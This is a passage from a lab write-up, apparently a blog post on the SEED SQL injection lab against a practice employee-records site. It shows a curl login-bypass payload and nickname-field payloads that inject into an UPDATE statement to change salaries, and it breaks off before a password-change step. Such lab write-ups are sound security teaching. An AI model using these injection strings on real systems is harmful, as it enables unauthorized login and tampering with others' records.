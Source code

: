 
___

If we notice the url bar, we see that the server submits the form using a GET request at the address `http://www.seed-server.com/unsafe_home.php`

We can attempt to use the command line to perform same sqli we performed above. To do so, the following query will be use on the command line via curl:

`curl --get --data-urlencode "username=admin' -- " http://www.seed-server.com/unsafe_home.php`

![task-2-b](https://github.com/iukadike/blog/assets/58455326/d2691bac-bcfc-4463-8deb-eae3cbc180aa)


<br>

### SQL Injection Attack on UPDATE Statement

This task involves trying to use SQLi to change data on the employee profiles. For this task, I assume the user Alice.

After viewing the employee profiles, Alice is not happy with her salary information, so she decides to do something about it.

![task-3-a](https://github.com/iukadike/blog/assets/58455326/05a0fb5c-b057-4b1f-886d-0b175fad0213)


To modify her salary information, the following query will be used as the nickname:

`', salary=200000 WHERE eid=10000 -- `

When she review the employee profiles, she can indeed confirm that the attack was successful.

![task-3-b](https://github.com/iukadike/blog/assets/58455326/b6e797a1-55aa-4e9d-ad67-32b722675ab7)


___

Alice is angry at her boss, Boby, and decides to punish him by reducing his salary to 1 dollar. To  modify Boby's salary information, the following query will be used as the nickname:

`', salary=1 WHERE eid=20000 -- `

When she review the employee profiles, she can indeed confirm that the attack was successful.

![task-3-c](https://github.com/iukadike/blog/assets/58455326/d22d6f00-5286-49f7-b069-a7197ae77e10)


![task-3-d](https://github.com/iukadike/blog/assets/58455326/f9fdbdec-c364-4574-ac3e-a657f4bae2c9)


___

After changing Boby’s salary, Alice is still disgruntled, so decides to change his password so she can log into his account and do further damage.

When applications save passwords, they do not save the plaintext, rather they save the hashed value. When a user wants to log in, the user provides the password and the application hashes the provided password and compares it with the hashed value in the database.
